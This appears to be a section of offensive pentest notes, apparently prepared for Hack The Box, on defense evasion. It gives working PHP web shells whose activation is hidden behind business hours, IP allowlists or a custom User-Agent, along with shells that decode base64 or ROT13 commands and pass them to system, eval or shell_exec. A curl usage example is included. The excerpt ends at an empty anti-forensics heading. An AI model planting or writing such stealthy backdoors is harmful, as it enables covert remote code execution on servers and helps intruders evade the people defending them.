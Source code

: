
## Defense Evasion & OPSEC

### Stealth Template Modification

#### Conditional Web Shells
```php
# Time-based activation
<?php
if (date('H') >= 9 && date('H') <= 17 && isset($_GET['maint'])) {
    system($_GET['maint']);
}
?>

# IP-based restriction
<?php
$allowed_ips = ['192.168.1.100', '10.10.14.15'];
if (in_array($_SERVER['REMOTE_ADDR'], $allowed_ips) && isset($_GET['debug'])) {
    eval($_GET['debug']);
}
?>

# User-Agent based
<?php
if ($_SERVER['HTTP_USER_AGENT'] === 'Mozilla/5.0 (HTB Assessment)' && isset($_GET['exec'])) {
    shell_exec($_GET['exec']);
}
?>
```

#### Encoded Payloads
```php
# Base64 encoded commands
<?php
if (isset($_GET['data'])) {
    system(base64_decode($_GET['data']));
}
?>

# Usage: 
# echo "id" | base64  → aWQK
# curl "http://target.com/error.php?data=aWQK"

# ROT13 encoded
<?php
if (isset($_GET['rot'])) {
    system(str_rot13($_GET['rot']));
}
?>
```

### Anti-Forensics Techniques
